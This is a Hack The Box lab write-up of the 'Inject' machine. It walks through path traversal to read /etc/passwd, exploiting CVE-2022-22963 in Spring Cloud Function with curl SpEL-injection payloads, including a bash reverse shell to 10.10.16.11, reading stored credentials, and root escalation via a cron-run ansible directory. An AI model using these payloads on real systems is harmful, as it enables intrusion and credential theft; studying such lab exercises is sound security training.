

# Inject Writeup - by Thammanant Thamtaranon  
- Inject is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.204`  
  
- The scan showed two open ports: 22 (SSH) and 8080 (HTTP).

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch` with `dirsearch -u 10.10.11.204:8080` and discovered the `/upload` path. When I uploaded a file there, it returned a link to view the uploaded image, which used the path `show_image?img=`.  
  

## Exploitation  
- I attempted a path traversal by accessing `/show_image?img=../../../../../../../etc/passwd` and successfully retrieved the `/etc/passwd` file. This confirmed the existence of users `phil` and `frank`.  
  

- I then read the configuration file to determine the technology used and found `pom.xml`, indicating that the application was built using Java and Spring Boot.  
  

- I researched potential vulnerabilities for this setup and found **CVE-2022-22963**, which is an Expression Language (SpEL) injection vulnerability in Spring Cloud Function due to improper input validation in its Routing Function feature.  

- To confirm the vulnerability, I navigated to `http://10.10.11.204:8080/functionRouter` and received an HTTP 500 Internal Server Error, indicating that the endpoint was indeed vulnerable.  

- I then tested a proof-of-concept payload that created a file in `/tmp` using:  
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder(\"/bin/sh\",\"-c\",\"touch /tmp/test\").start()" \
-d "test"
```
- I verified the file creation using path traversal, which confirmed that the injection worked.  
  

- After confirming the vulnerability, I crafted a reverse shell payload:  
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder('/bin/bash','-c','bash -i >& /dev/tcp/10.10.16.11/4444 0>&1').start()" \
-d "test"
```
- This successfully gave me a shell as the user `frank`.  
  

- While exploring Frank's home directory, I found `.m2/settings.xml` containing credentials for the user `phil`. I then ran `su phil` to switch to Phil's account and obtained the user flag.  
  

## Privilege Escalation  
- I attempted to run `sudo -l`, but Phil did not have sudo privileges.  
- Running `id` showed that Phil belonged to the `staff` group.  
  

- I searched for files and directories owned by the `staff` group using `find / -group staff 2>/dev/null` and discovered `/opt/automation/tasks`.  
  

- I monitored running processes using `pspy` and noticed an interesting root process executing:  
`2025/08/15 08:22:01 CMD: UID=0     PID=15753  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml`  

- Since this process runs as root and executes all `.yml` files in that directory, I created `exploit.yml` and waited for the scheduled task to execute it.  

- When the task ran, it executed my payload as root, which set the SUID bit on /bin/bash.
  

- Finally, I retrieved the root flag and completed the box.
